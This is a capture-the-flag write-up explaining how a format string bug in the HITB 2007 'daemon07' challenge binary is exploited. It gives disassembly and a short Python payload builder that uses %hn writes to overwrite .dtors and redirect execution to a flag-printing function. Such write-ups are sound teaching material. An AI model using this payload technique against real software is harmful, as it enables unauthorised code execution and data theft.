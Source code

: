 ```yaml
---
title: Exploiting HITB 2007 Kuala Lumpur CTF Daemon 07
author: lamer
excerpt: |
  |
    Like daemon05, daemon07 is an easy target. It suffers a format string bug. Exploiting it by overwriting .dtors with an easter-egg.
layout: post
tweetcount:
  - 0
shorturls:
  - 'a:4:{s:9:"permalink";s:82:"http://www.vnsecurity.net/2007/09/exploiting-hitb-2007-kuala-lumpur-ctf-daemon-07/";s:7:"tinyurl";s:26:"http://tinyurl.com/y9qu2zl";s:4:"isgd";s:18:"http://is.gd/aOubp";s:5:"bitly";s:0:"";}'
twittercomments:
  - 'a:0:{}'
tweetbackscheck:
  - 1408359076
category:
  - 'CTF - CLGT Crew'
---
```

## Analyzing main

There really is nothing to analyze here. It&#8217;s plain to see that the last `printf` was called without any format string.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">.text:08048A8E main            proc near               ; DATA XREF: start+17&uarr;o
.text:08048A8E
.text:08048A8E var_118         = dword ptr -118h
.text:08048A8E var_114         = dword ptr -114h
.text:08048A8E var_110         = dword ptr -110h
.text:08048A8E var_108         = dword ptr -108h
.text:08048A8E
.text:08048A8E                 push    ebp
.text:08048A8F                 mov     ebp, esp
.text:08048A91                 sub     esp, 118h       ; char *
.text:08048A97                 and     esp, 0FFFFFFF0h
.text:08048A9A                 mov     eax, 0
.text:08048A9F                 add     eax, 0Fh
.text:08048AA2                 add     eax, 0Fh
.text:08048AA5                 shr     eax, 4
.text:08048AA8                 shl     eax, 4
.text:08048AAB                 sub     esp, eax
.text:08048AAD                 mov     [esp+118h+var_118], offset aCodedByXwings_ ; "Coded By xWinGs. a code just to make yo"...
.text:08048AB4                 call    _printf
.text:08048AB9                 mov     [esp+118h+var_118], offset aSecretCode ; "Secret Code: "
.text:08048AC0                 call    _printf
.text:08048AC5                 mov     eax, ds:stdout
.text:08048ACA                 mov     [esp+118h+var_118], eax
.text:08048ACD                 call    _fflush
.text:08048AD2                 mov     [esp+118h+var_110], 100h
.text:08048ADA                 lea     eax, [ebp+var_108]
.text:08048AE0                 mov     [esp+118h+var_114], eax
.text:08048AE4                 mov     [esp+118h+var_118], 0
.text:08048AEB                 call    _read
.text:08048AF0                 mov     ds:dword_8052998, eax
.text:08048AF5                 mov     [esp+118h+var_110], offset aEtcFlagsDaemon ; "/etc/flags/daemon07.txt"
.text:08048AFD                 mov     eax, ds:dword_8052998
.text:08048B02                 mov     [esp+118h+var_114], eax
.text:08048B06                 lea     eax, [ebp+var_108]
.text:08048B0C                 mov     [esp+118h+var_118], eax
.text:08048B0F                 call    sub_80489C4
.text:08048B14                 mov     [esp+118h+var_118], offset aWrongCode_Debu ; "Wrong Code.nDebug Input : "
.text:08048B1B                 call    _printf
.text:08048B20                 lea     eax, [ebp+var_108]
.text:08048B26                 mov     [esp+118h+var_118], eax
.text:08048B29                 call    &lt;strong&gt;_printf&lt;/strong&gt;
.text:08048B2E                 mov     eax, 0
.text:08048B33                 leave
.text:08048B34                 retn
.text:08048B34 main            endp
</pre>

## Exploit it

So, it&#8217;s a simple format string exploit. We will overwrite the end of .dtors to point to the easter-egg function at `08048A32`.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">.text:08048A32 ; ---------------------------------------------------------------------------
.text:08048A32                 push    ebp
.text:08048A33                 mov     ebp, esp
.text:08048A35                 sub     esp, 48h
.text:08048A38                 mov     dword ptr [esp+4], offset aR ; "r"
.text:08048A40                 mov     dword ptr [esp], offset aEtcFlagsDaemon ; "/etc/flags/daemon07.txt"
.text:08048A47                 call    _fopen
.text:08048A4C                 mov     [ebp-0Ch], eax
.text:08048A4F                 mov     eax, [ebp-0Ch]
.text:08048A52                 mov     [esp+8], eax
.text:08048A56                 mov     dword ptr [esp+4], 20h
.text:08048A5E                 lea     eax, [ebp-38h]
.text:08048A61                 mov     [esp], eax
.text:08048A64                 call    _fgets
.text:08048A69                 mov     eax, [ebp-0Ch]
.text:08048A6C                 mov     [esp], eax
.text:08048A6F                 call    _fclose
.text:08048A74                 lea     eax, [ebp-38h]
.text:08048A77                 mov     [esp+4], eax
.text:08048A7B                 mov     dword ptr [esp], offset aS ; "n%s"
.text:08048A82                 call    _printf
.text:08048A87                 mov     eax, 0
.text:08048A8C                 leave
.text:08048A8D                 retn
</pre>

These few lines of Python code are all it takes to construct an exploit.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">dtors_addr = 0x08052804
target_addr = 0x08048A32
offset = 8

junk_cnt0 = offset * 4
junk_cnt1 = (target_addr & 0xFFFF) - junk_cnt0
junk_cnt2 = 0x10000 + ((target_addr & 0xFFFF0000) &gt;&gt; 16) - junk_cnt1 - junk_cnt0

fmtstring = struct.pack("I", dtors_addr) + struct.pack("I", dtors_addr + 2) + "aaaa" * (offset - 2)
fmtstring += "%%.%dx%%%d$hn" % (junk_cnt1, offset)
fmtstring += "%%.%dx%%%d$hn" % (junk_cnt2, offset + 1)
fmtstring += "n"
# send this string to port 7777, will ya?
</pre>

## Observation

Unlike daemon05, we need not flush the buffer in `printf` because when the daemon ends normally, this buffer is automatically flushed. And the daemon does end normally. Let&#8217;s find out why.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">.dtors:08052800 _dtors          segment dword public 'DATA' use32
.dtors:08052800                 assume cs:_dtors
.dtors:08052800                 ;org 8052800h
.dtors:08052800                 db 0FFh
.dtors:08052801                 db 0FFh
.dtors:08052802                 db 0FFh
.dtors:08052803                 db 0FFh
.dtors:08052804                 db    0
.dtors:08052805                 db    0
.dtors:08052806                 db    0
.dtors:08052807                 db    0
.dtors:08052807 _dtors          ends
.dtors:08052807
.jcr:08052808 ; ---------------------------------------------------------------------------
.jcr:08052808
.jcr:08052808 ; Segment type: Pure data
.jcr:08052808 ; Segment permissions: Read/Write
.jcr:08052808 _jcr            segment dword public 'DATA' use32
.jcr:08052808                 assume cs:_jcr
.jcr:08052808                 ;org 8052808h
.jcr:08052808                 db    0
.jcr:08052809                 db    0
.jcr:0805280A                 db    0
.jcr:0805280B                 db    0
.jcr:0805280B _jcr            ends
</pre>

Right after .dtors is .jcr which is filled with four `00`, which incidentally is also the end marker for .dtors. So, when we overwrite `08052804` with the value `08048A32`, we happen to *insert* a destructor to .dtors list. If .jcr were different, we would have to overwrite .jcr to point to the `fflush` code in `main`, which is at `08048AC5`. This is still doable by extending our format string to have two more `%hn` overwrites.

Oh, and thank you, xWinGs, for these easy points.